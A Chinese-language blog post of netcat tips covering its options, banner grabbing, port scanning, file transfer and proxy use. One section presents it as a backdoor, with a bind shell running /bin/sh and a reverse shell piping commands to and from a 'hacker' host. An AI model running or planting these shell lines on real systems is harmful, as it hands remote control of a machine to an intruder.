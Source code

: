 ```yaml
---
layout: post
title: "Netcat/Nc命令使用技巧"
subtitle: "耍耍网络的瑞士军刀"
description: ""
category: Linux系统管理
author: "fishcried"
header-img: "img/bg/home-bg.jpg"
tags:
    - nc
    - netcat
    - 网络
    - linux
---
```


netcat网络安全界的“瑞士军刀”，简单实用。可以用来扫描端口，指纹探查，聊天，传输文件，后门等等，常常会有你意想不到的使用方式。

# 1. Netcat的常用选项

	-h			擦，记不住参数，就help啊
	-l			监听模式
	-p port		制定本地端口号
	-r			随机本地与远程端口
	-s addr		指定本地地址
	-C			使用CRLF换行方式
	-k			支持多链接 
	-e			绑定执行程序(后门),这个应该是特定版本才有
	-n			制定数字ip
	-v			输出详细信息，-vv更详细
	-w timeout	制定超时
	-z			端口扫描模式
	
# 2. 使用实例

## 2.1  连接远程主机端口

	test@test:~$ nc -nvv testip 21
	Connection to testip 21 port [tcp/*] succeeded!
	
	220 xxx FTP server ready.
	530 Please login with USER and PASS

通过这种方式，可以查看远程主机端口是否开启，甚至能够看到该端口运行的服务,也叫flag识别。也可以通过这种方式验证两台机器之间的通信是否被防火墙阻断。查看对断的端口是否开放。端口探测还是非常实用的。

## 2.2 端口扫描

	nc -nvv ip 20-30

## 2.3 两台设备之间通信

	nc -l 1234 > fname.out
	nc host.example.com 1234 < fname.in

两台机器之间可以通信了，那么可以做的事情太多了，一切都是数据，一切都可以传输 。无聊的话，也可以用来了把妹聊天。最好传输文件之前能把数据压缩加密，隐私什么的要注意的。

## 2.3 当后门来玩

	#正向连接后门
	target: nc -l -p 2345 -e /bin/sh
	hacker: nc target 2345
	
	#反向连接后门,容易突破防火墙
	hacker:
			nc -l -p 2345
			nc -l -p 2346
	target:	
			nc hacker 2345 | /bin/sh | nc hacker 2346

## 2.4 More

1. `nc -p 31337 -w5 host.example.com 80` : 使用本地31137端口连接host.example.com的80端口，5秒超时
1. `nc -u host.example.com 53`: dns探查
1. `nc -x10.2.3.4:8080 -Xconnect host.example.com 80` :使用代理方式连接对方80端口
1. `echo 'i found you' | nc -k -p  >> aha.log`:  有点密罐的意思

# 修改记录

|Why | Who | When |
|----|-----|------|
|整理旧文档|fishcired|2014-06-22|
